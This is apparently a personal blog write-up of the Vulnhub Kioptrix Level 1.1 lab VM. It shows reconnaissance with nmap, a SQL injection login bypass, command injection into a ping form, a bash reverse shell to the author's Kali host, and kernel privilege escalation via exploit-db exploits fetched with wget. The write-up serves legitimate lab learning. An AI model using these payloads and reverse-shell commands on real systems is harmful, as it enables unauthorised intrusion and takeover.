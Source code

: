 ```yaml
---
layout: post
title: Vulnhub Kioptrix 2
---
```


## Vulnhub: Kioptrix: Level 1.1 (#2)

This is my first writeup of a Vulnhub VM, so let's see how this goes...

This writeup is for the Kioptrix: Level 1.1 (#2) found [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

The VM was run using VMWare and the attacking machine was a Kali Linux VM running in Virtualbox, both in host-only networking mode.

## Recon and Enumeration
I used netdiscover to find the IP of the box.
```
root@kali:~# netdiscover
```
![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_1/netdiscover.png "netdiscover output")

Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168.56.106

I then ran `nmap` to find open ports with services running on them.

```
root@kali:~# nmap 192.168.56.106
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-20 13:18 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.106
Host is up (0.0015s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:51:2F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

I noticed that there may be an http server running on the box, so I went to the IP address in a web browser and was presented with a logon page.

## Vulnerability Discovery and Exploitation

![Logon page]({{ site.baseurl }}/images/KioptrixLevel1_1/logon.png "Logon page")

I tested a few basic username and password combinations, but it didn't seem to do anything. I ran OWASP ZAP to find any potential vulnerabilities or hidden pages. Using an automated scan, ZAP detected a possible SQL injection vulnerability on the logon page.

![ZAP Results]({{ site.baseurl }}/images/KioptrixLevel1_1/zap.png "ZAP Results")

I plugged the attack used (`ZAP' OR '1'='1' --`) into the username field and was presented with a form to ping a machine on the network. I immanently suspected there to be a bash injection vulnerability, but I plugged in an IP to make sure.

This brought me to a page containing the output to the ping command.

![ping results]({{ site.baseurl }}/images/KioptrixLevel1_1/ping.png "ping Results")

I ran `; ls` to make sure that I could inject a command and was presented with a directory listing. Next, I injected a reverse shell by first opening a netcat listener on my Kali VM and then putting the shell code into the form.

```
root@kali:~# nc -nvlp 1234
```

```
; bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```

This presented me with a shell on my Kali VM.

![Reverse Shell]({{ site.baseurl }}/images/KioptrixLevel1_1/shell.png "Reverse Shell")

## Privilege Escalation

I first check the user that I am.

```
bash-3.00$ whoami
apache
```

I look around a bit to find possible things to exploit, but I can't find anything obvious.

Next, I check the kernel version to see if there are any exploits available.

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

I found that the box was vulnerable to ['ip_append_data()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9542).

Because neither box was connected to the internet, I used a shared folder on my Kali VM to move the exploit to it. I then used the python SimpleHTTPServer to send the file to the box.

```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

I used `wget` on the box to retrieve the file from my Kali VM.

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.101/9542.c
--10:41:56--  http://192.168.56.101/9542.c
           => `9542.c'
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%    5.65 MB/s

10:41:56 (5.65 MB/s) - `9542.c' saved [2643/2643]
```

I then compiled it according to the instructions and ran it.

```
bash-3.00$ gcc -o 9542 9542.c
bash-3.00$ ./9542
[-] exploit failed, try again
```

This unfortunately didn't work. I looked at the source code to figure out why, but couldn't figure it out as this error is supposed to happen when the uid did not change with the exploit.

I uploaded [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) and ran it to find other potential vulnerabilities with the box.

```
bash-3.00$ python linuxprivchecker.py
...
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...

    Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!

    The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c

    The following exploits are applicable to this kernel version and should be investigated as well
    - Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
    - 2.x sock_sendpage() Local Root Exploit 2 || http://www.exploit-db.com/exploits/9436 || Language=c
    - open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
    - 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver) || http://www.exploit-db.com/exploits/9479 || Language=c
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit [2] || http://www.exploit-db.com/exploits/9598 || Language=c
    - open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
    - CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
    - 2.6.x ptrace_attach Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8673 || Language=c
    - 2.x sock_sendpage() Local Ring0 Root Exploit || http://www.exploit-db.com/exploits/9435 || Language=c
    - 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) || http://www.exploit-db.com/exploits/926 || Language=c
    - CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit (ppc) || http://www.exploit-db.com/exploits/9545 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
    - Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
    - 2.4/2.6 sock_sendpage() Local Root Exploit [3] || http://www.exploit-db.com/exploits/9641 || Language=c
    - 2.4.x / 2.6.x uselib() Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/895 || Language=c

Finished
=================================================================================================
```

I tested the [2.6 UDEV < 141 Local Privilege Escalation Exploit](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) using the same methodology as above, but it didn't work either. I went down to the [2.4/2.6 sock_sendpage() Local Root Exploit (ppc)](http://www.exploit-db.com/exploits/9545), once again with the same methodology
and this time it worked.

![Root]({{ site.baseurl }}/images/KioptrixLevel1_1/root.png "Root")

